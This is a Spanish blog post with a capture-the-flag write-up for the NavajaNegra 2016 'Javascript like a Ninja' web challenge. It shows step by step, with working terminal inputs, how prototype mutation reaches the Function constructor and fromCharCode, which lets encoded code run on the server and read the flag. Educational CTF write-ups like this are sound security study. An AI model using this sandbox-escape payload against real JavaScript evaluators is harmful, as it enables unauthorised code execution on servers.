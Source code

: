 # NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login

![](img/mojojojo-login.png)

Una vez dentro nos encontramos con un terminal llamado MoJS en el que podemos escribir instrucciones, al parecer en lenguaje JavaScript.

![](img/mojojojo-terminal.png)

Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```
"function () { return execute.toString(); }"
```

Si la ejecutamos con result=help(0); obtenemos el código de la función execute, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.

![](img/mojojojo-execute.png)

Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto scope[sessId], también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.
Una de las pistas nos recomienda utilizar prototypes y mutar el objeto,
Javascript objects have prototypes. Mutate the scope.
Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a Function podemos utilizar constructor para crear una función propia.

```
MoJS&gt; __proto__=help;
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt;; result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS&gt; result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un String definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a Function.

```
MoJS&gt; __proto__=constructor(help(0));
"undefined"
MoJS&gt; result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase String, donde tendremos acceso a la ansiada función fromCharCode.

```
MoJS&gt; result=constructor;
"function Function() { [native code] }"
MoJS&gt; result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.
Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar fromCharCode en cada uno de ellos. Por último, utilizamos constructor(instruccion)(0); para crear la función y ejecutarla.

```
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción return fl4g; para obtener el flag.

```
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba

![](img/mojojojo-solucion.png)

Posted on October 7, 2016February 25, 2017Author JesúsTags CTF, Javascript, ka0labs, NavajaNegra2016
Post navigation
Previous Previous post: NavajaNegra 2016 – Web 1 MongoDB Blind Injection
Next Next post: CyberCamp Quals 2016 – Web 4 – Patataprinting like a b0ss
Proudly powered by WordPress